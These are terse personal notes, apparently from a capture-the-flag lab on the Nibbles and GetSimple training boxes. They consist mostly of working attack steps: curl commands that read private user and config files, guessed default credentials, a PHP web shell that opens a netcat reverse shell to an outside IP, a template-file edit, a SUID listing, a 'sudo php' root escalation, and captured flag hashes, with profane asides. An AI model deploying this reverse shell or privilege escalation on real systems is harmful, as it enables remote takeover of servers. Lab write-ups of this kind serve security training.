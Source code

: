 curl -s http://10.129.132.244/nibbleblog/content/private/users.xml | xmllint  --format -4

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">1</session_fail_count>
    <session_date type="integer">1730756498</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
  <blacklist type="string" ip="10.10.14.5">
    <date type="integer">1730756498</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
</users>


curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -

<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<config>
  <name type="string">Nibbles</name>
  <slogan type="string">Yum yum</slogan>
  <footer type="string">Powered by Nibbleblog</footer>
  <advanced_post_options type="integer">0</advanced_post_options>
  <url type="string">http://10.10.10.134/nibbleblog/</url>
  <path type="string">/nibbleblog/</path>
  <items_rss type="integer">4</items_rss>
  <items_page type="integer">6</items_page>
  <language type="string">en_US</language>
  <timezone type="string">UTC</timezone>
  <timestamp_format type="string">%d %B, %Y</timestamp_format>
  <locale type="string">en_US</locale>
  <img_resize type="integer">1</img_resize>
  <img_resize_width type="integer">1000</img_resize_width>
  <img_resize_height type="integer">600</img_resize_height>
  <img_resize_quality type="integer">100</img_resize_quality>
  <img_resize_option type="string">auto</img_resize_option>
  <img_thumbnail type="integer">1</img_thumbnail>
  <img_thumbnail_width type="integer">190</img_thumbnail_width>
  <img_thumbnail_height type="integer">190</img_thumbnail_height>
  <img_thumbnail_quality type="integer">100</img_thumbnail_quality>
  <img_thumbnail_option type="string">landscape</img_thumbnail_option>
  <theme type="string">simpler</theme>
  <notification_comments type="integer">1</notification_comments>
  <notification_session_fail type="integer">0</notification_session_fail>
  <notification_session_start type="integer">0</notification_session_start>
  <notification_email_to type="string">admin@nibbles.com</notification_email_to>
  <notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
  <seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
  <seo_site_description type="string"/>
  <seo_keywords type="string"/>
  <seo_robots type="string"/>
  <seo_google_code type="string"/>
  <seo_bing_code type="string"/>
  <seo_author type="string"/>
  <friendly_urls type="integer">0</friendly_urls>
  <default_homepage type="integer">0</default_homepage>
</config>

admin:nibbles
- guessed password bc nibbles is everywhere

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>


 http://nibbleblog/content/private/plugins/my_image/image.ph

 79c03865431abf47b90ef24b9695e148


 de5e5d6619862a8aa5b9b212314e0cdd

 ==================================================================================
 10.129.104.163

 /admin/

 admin:admin

 3.3.15


 Editing File: http://gettingstarted.htb/theme/Innovation/template.php

 7002d65b149b0a4d19132a66feed21d8


suid bit set:

 /usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/at
/usr/bin/newgrp

none of that above nonsense but this mfer has A FUCKIBNG SUDO JAM ON /usr/bin/php so we gonna do the following:


sudo /usr/bin/php -r "system('/bin/sh');"

f1fba6e9f71efb2630e6e34da6387842
